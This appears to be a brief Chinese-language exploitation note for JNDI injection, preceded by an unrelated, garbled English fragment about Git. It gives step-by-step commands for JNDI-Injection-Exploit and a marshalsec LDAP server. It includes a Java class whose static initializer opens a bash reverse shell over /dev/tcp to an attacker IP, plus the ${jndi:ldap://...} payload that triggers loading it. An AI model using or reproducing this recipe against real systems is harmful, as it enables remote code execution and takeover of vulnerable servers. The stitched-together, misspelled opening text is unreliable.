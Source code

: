 Git is a version control sysrem.
Git is free software.
wher true
will be not
branch modify





JNDI注入工具：

JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit -C "command" -A 127.0.0.1
```



marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://ip/#EXp" 1389
```

需要准备包含恶意代码的exp.java文件

```java
import java.lang.Runtime;
import java.lang.Process;

public class Exp {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/ip/9999 0>&1"};
            //linux
            Process pc = rt.exec(commands);
            //Process pc = rt.exec(command: "calc"); windows
            pc.waitFor();
        } catch (Exception e) {
            //do nothing
        }
    }
}
```

将以上代码使用`javac` exp.java编译生成exp.class

将生成的类放到搭建的web根目录中 例如`httpS://127.0.0.1/exp.class`

使用工具marshalsec-jar

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefserver "http://127.0.0.1/#eXp" 1389
```

注：无.class，有.class将会报错 #为标识元素名

则会服务器会开启1389端口服务，且加载了exp的类

去注入点：`${jndi:ldap://127.0.0.1:1389/exp}`即可利用
